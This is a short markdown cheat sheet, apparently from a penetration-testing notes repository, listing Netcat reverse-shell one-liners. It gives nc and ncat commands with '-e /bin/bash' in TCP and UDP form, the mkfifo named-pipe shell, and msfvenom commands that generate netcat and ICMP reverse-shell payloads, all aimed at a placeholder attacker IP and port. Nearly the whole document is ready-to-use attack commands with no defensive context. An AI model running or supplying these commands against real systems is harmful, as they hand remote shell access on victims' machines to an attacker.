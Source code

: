 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc <IP> <PORT> -e /bin/sh

$ nc <IP> <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat <IP> <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -u <IP> <PORT> -e /bin/bash
```

### 1.3 - OpenBSD Method

```
$ mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>
```

### 2.3 - ICMP Method

```
$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>
```

---
## References

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)
